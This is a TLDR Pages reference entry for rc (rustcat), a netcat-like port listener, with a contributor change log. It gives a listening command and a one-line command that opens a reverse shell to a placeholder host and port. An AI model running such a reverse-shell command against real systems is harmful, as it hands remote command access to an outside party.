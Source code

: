 ```yaml
---
author: ['Joshua Shanks']
date: 1633607430
title: "rc, TLDR Pages"
description: "rc, A modern simplistic port listener & reverse shell."
categories: "common"
---
```

> Similar to `nc`.

> More information: <https://github.com/robiot/rustcat/wiki/Basic-Usage>.

- Start listening on a specific port:

```bash
rc -lp port
```

- Start a reverse shell:

```bash
rc host port -r shell
```
List of changes to this documentation


Author | Description | ISO 8601 Date | GitHub link
------|-----|-----|-----
[Joshua Shanks](mailto:jjshanks@gmail.com) | rc: add page (#6831) | 2021-10-07T13:50:30 | [e36515eb027f](https://github.com/tldr-pages/tldr/commit/e36515eb027f3dc6cb6a8bd8963634083247569f)

